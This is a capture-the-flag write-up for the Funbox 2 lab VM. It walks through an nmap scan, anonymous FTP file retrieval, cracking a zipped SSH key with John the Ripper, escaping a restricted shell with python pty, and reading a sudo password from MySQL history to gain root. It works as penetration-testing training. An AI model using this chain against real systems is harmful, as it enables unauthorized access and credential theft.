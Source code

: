 <div style="background-color: rgb(50, 50, 50);">
<span style ="color:grey">

# \[----Funbox 2 Guide----\]

## [----Setup Requirments----]
First run a Kali Linux Machine, PFSense 2, and the Funbox 2 box.

Login on the Kali Linux Machine and launch a terminal

## [----Key----]
<span style="color:lightblue">Lightblue Text indicates a detail such as a ran command or relevant important information </span>

<span style="color:darkgreen">Dark green Text indicates command results</span>
## \[----Tools Used----\]
<span style="color:lightblue">`nmap`</span></br>
<span style="color:lightblue">`ftp`</span></br>
<span style="color:lightblue">`ssh`</span></br>
<span style="color:lightblue">`python3`</span></br>
<span style="color:lightblue">`johntheripper`</span></br>
## \[----Enumeration----\]

at <span style="color:lightblue">\[03/29/23 1:09:35\]</span> i ran the following command <span style="color:lightblue">`sudo namp -PO 192.168.10.0/24`</span> to find the machine's ip and relevant information about services using <span style="color:lightblue">`-PO`</span> to bypass filtering on the ports of the machine which returned the following

> <span style="color:darkgreen">
> Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-29 13:09 EDT</br>
> Nmap scan report for pfSense.home.arpa (192.168.10.1)</br></br>
> Host is up (0.00046s latency).</br>
> Not shown: 998 filtered tcp ports (no-response)</br>
> PORT   STATE SERVICE</br>
> 53/tcp open  domain</br>
> 80/tcp open  http</br>
> MAC Address: 08:00:27:B8:0B:67 (Oracle VirtualBox virtual NIC)
>
> Nmap scan report for 192.168.10.6</br>
> Host is up (0.00031s latency).</br>
> Not shown: 997 closed tcp ports (reset)</br>
> PORT   STATE SERVICE</br>
> 21/tcp open  ftp</br>
> 22/tcp open  ssh</br>
> 80/tcp open  http</br>
> MAC Address: 08:00:27:CF:01:65 (Oracle VirtualBox virtual NIC)
>
> Nmap scan report for 192.168.10.3</br>
> Host is up (0.0000030s latency).</br>
> All 1000 scanned ports on 192.168.10.3 are in ignored states.</br>
> Not shown: 1000 closed tcp ports (reset)
>
> Nmap done: 256 IP addresses (3 hosts up) scanned in 6.89 seconds
> </span>

this scan revealed the following services <span style="color:lightblue">`FTP`</span>, <span style="color:lightblue">`SSH`</span>, and <span style="color:lightblue">`HTTP`</span> running on the vulnerable machine at the ip address of <span style="color:lightblue">`192.168.10.6`</span>

## \[----FTP----\]

using this information at <span style="color:lightblue">\[03/29/23 1:16:27\]</span> i ran <span style="color:lightblue">`ftp 192.168.10.6 -p 21`</span> to access the relevant running FTP service logging in under the anonymous username

upon logging on under the <span style="color:darkgrey">**anonymous**</span> user account with no password i ran <span style="color:lightblue">`ls -la`</span> to retrieve the directory contents of the server which returned the following information

> <span style="color:darkgreen">
> 229 Entering Extended Passive Mode (|||31812|)</br>
> 150 Opening ASCII mode data connection for file list</br>
> drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .</br>
> drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..</br>
> -rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip</br>
> -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip</br>
> -rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users</br>
> -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip</br>
> 226 Transfer complete
> </span>

with the gained knowledge of the accessible files i used <span style="color:lightblue">`get`</span> to obtain <span style="color:lightblue">`.@users`</span>, <span style="color:lightblue">`.@admins`</span> and all the <span style="color:lightblue">`.zip`</span> files located on the server

upon collection of the following files i exited the ftp server using <span style="color:lightblue">`exit`</span> at <span style="color:lightblue">\[03/29/23 1:25:11\]</span>  

## \[----FTP Server File Analysis----\]

using the command <span style="color:lightblue">`cat .@users`</span> in the directory containing the downloaded files off the ftp server i gained the following **Valuable** information

> <span style="color:darkgreen">
> Hi Users,
>
> be carefull with your keys. Find them in %yourname%.zip.</br>
> The passwords are the old ones.
>
> Regards</br>
> root
> </span>

using this information i attempted to extract files from <span style="color:lightblue">`tom.zip`</span> using <span style="color:lightblue">`unzip`</span> which revealed a password requirment on the zip file.

> <span style="color:darkgreen">
> Archive:  tom.zip</br>
> \[tom.zip\] id_rsa password: 
> </span>

with this information i used the command of <span style="color:lightblue">`zip2john tom.zip >> tom.hash`</span> to generate a <span style="color:darkgrey">**johntheripper**</span>  crackable hash

doing the command <span style="color:lightblue">`john tom.hash`</span> at <span style="color:lightblue">\[03/29/23 1:36:36\]</span> revealed the following information including the password for the zip

> <span style="color:darkgreen">
> Using default input encoding: UTF-8</br>
> Loaded 1 password hash (PKZIP [32/64])</br>
> Will run 4 OpenMP threads</br>
> Proceeding with single, rules:Single</br>
> Press 'q' or Ctrl-C to abort, almost any other key for status</br>
> Almost done: Processing the remaining buffered candidate passwords, if any.</br>
> Proceeding with wordlist:/usr/share/john/password.lst</br>
> **iubire**           (tom.zip/id_rsa)     </br>
> 1g 0:00:00:00 DONE 2/3 (2023-03-29 13:36) 20.00g/s 937980p/s 937980c/s 937980C/s 123456..felipes</br>
> Use the "--show" option to display all of the cracked passwords reliably</br>
> Session completed. 
> </span>

with this i did <span style="color:lightblue">`unzip tom.zip`</span> and entered the password of <span style="color:lightblue">`iubire`</span> giving me tom's id_rsa key

## \[----Accessing the Machine And Elevating Privilege----\]

with the newly acquired id_rsa key i ran <span style="color:lightblue">`ssh tom@192.168.10.6 -i id_rsa`</span> at <span style="color:lightblue">\[03/29/23 1:38:21\]</span> gaining remote acess to the machine via a ssh shell

I quickly upon connecting and opening a shell to the machine learned that the machine was running under restricted shell to bypass this i ran the following <span style="color:lightblue">`python3 -c 'import pty; pty.spawn("/bin/bash/")'`</span> to gain a unrestricted shell on the machine.

with this new found unrestriction i ran <span style="color:lightblue">`ls -la`</span> to reveal the contents of tom's home directory

> <span style="color:darkgreen">
> total 40</br>
> drwxr-xr-x 5 tom  tom  4096 Jul 25  2020 .</br>
> drwxr-xr-x 3 root root 4096 Jul 25  2020 ..</br>
> -rw------- 1 tom  tom     6 Jul 25  2020 .bash_history</br>
> -rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout</br>
> -rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc</br>
> drwx------ 2 tom  tom  4096 Jul 25  2020 .cache</br>
> drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg</br>
> -rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history</br>
> -rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile</br>
> drwx------ 2 tom  tom  4096 Jul 25  2020 .ssh</br>
> -rw-r--r-- 1 tom  tom     0 Jul 25  2020 .sudo_as_admin_successful</br>
> -rw------- 1 tom  tom     0 Jul 25  2020 .viminfo
> </span>

using these contents i quickly strated running <span style="color:lightblue">`cat`</span> to look at the contents of the files

the following in order revealed no useful information <span style="color:lightblue">`.viminfo`, `.sudo_as_admin_successful`, `.profile`</span>.

However upon running <span style="color:lightblue">`cat .mysql_history`</span> it revealed the following 

> <span style="color:darkgreen">
> \_HiStOrY\_V2\_
> show\040databases;</br>
> quit</br>
> create\040database\040'support';</br>
> create\040database\040support;</br>
> use\040support</br>
> create\040table\040users;</br>
> show\040tables</br>
> ;</br>
>select\040*\040from\040support</br>
> ;</br>
> show\040tables;</br>
> select\040*\040from\040support;</br>
> insert\040into\040support\040(tom,\040xx11yy22!);</br>
> quit</br>
></span>

due to the following newfound information i attempted the following command <span style="color:lightblue">`sudo -l`</span> using <span style="color:lightblue">`xx11yy22!`</span> as the password required for sudo execution to see if tom had sudo privileges which gave the following output

> <span style="color:darkgreen">
> Matching Defaults entries for tom on funbox2:</br>
>    env_reset, mail_badpass,</br>
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
> </span></br></br>
> 
> <span style="color:darkgreen">
> User tom may run the following commands on funbox2:</br>
>    (ALL : ALL) ALL
> </span>

with this found information i used <span style="color:lightblue">`sudo -i`</span> to launch a interative shell as the root user and was able to <span style="color:lightblue">`cat flag.txt`</span> to get the end goal output.

## \[----End Result Analysis----\]
due to the improperly secured services on the host of <span style="color:lightblue">`192.168.10.6`</span> it is possible to find and abuse information from the service of <span style="color:lightblue">`ftp`</span> as the <span style ="color:darkgrey">**Anonymous**</span> user account which requires no password to gain information and later a id_rsa key file. Through this it is possible to login to a user ssh account and by using <span style="color:lightblue">`MySql`</span> command logging find the relevant user password which has complete sudo access and gain root level access.
